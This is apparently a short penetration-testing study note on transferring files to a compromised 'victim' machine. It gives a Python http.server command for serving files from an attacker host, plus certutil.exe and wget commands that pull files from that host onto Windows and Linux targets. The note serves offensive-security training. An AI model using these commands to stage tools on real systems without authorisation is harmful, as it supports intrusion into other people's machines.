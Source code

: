 ```yaml
---
tags:
  - PEH
---
```

## http.server module
The built in http.server module in [[Python - بايثون|Python]] can make http server on the fly, this server can be very useful to transfer files to the victim machine (downloading the files from the victim machine):
```bash
python3 -m http.server [PORT]
```
### Downloading files on victim's machine (MS Windows machine)
Certutil can be misused to download files from the attacker's machine:
```PowerShell
certutil.exe -urlcache -f http://[MACHINE TO DOWNLOAD FROM]/[FILE] [NAME]
```
### Downloading files on victim's machine (Linux machine)
```bash
wget http://[MACHINE TO DOWNLOAD FORM]/[FILE] [NAME]
```